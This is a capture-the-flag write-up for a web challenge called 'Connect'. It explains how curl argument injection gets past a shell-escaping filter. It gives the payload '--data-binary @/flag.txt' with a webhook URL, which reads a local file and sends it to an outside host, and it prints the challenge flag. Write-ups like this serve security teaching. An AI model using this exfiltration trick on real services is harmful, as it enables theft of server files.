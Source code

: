 # Connect
Category: Web

## Description
Author: `Mr. Blade`

I built a tool to test if websites are alive. Can you test it for me?

Note: the flag is located at `/flag.txt`

[http://connect.tamuctf.com/](http://connect.tamuctf.com/)

Attachments: [connect.zip](attachments/connect.zip)

## Write-up
- The URL input is inserted into the `command` variable, which contains a Curl command like so `command = "curl -s -D - -o /dev/null " + <url> + " | grep -oP '^HTTP.+[0-9]{3}'"`.
- The `escape_shell_cmd()` function validates the URL input to prevent command injection vulnerabilities.
- Luckily, Curl has a `--data-binary` option that allows reading file content and appending it to the request. If the value of `--data-binary` starts with `@` followed by a file path, Curl will read the content of that file.
- By prefixing the URL input with `--data-binary @/flag.txt`, Curl will include the content of the `/flag.txt` file in the request.
- The modified URL would be `--data-binary @/flag.txt https://webhook.site/35e3671b-6a1c-45c7-be30-0b9bc8d2ab6c`.
- Curl will read the content of `/flag.txt` and send it in the request to the specified webhook.
- This allows us to retrieve the flag content through the webhook.

Flag: `gigem{p00r_f1lt3rs_m4k3_f0r_p00r_s3cur1ty}`
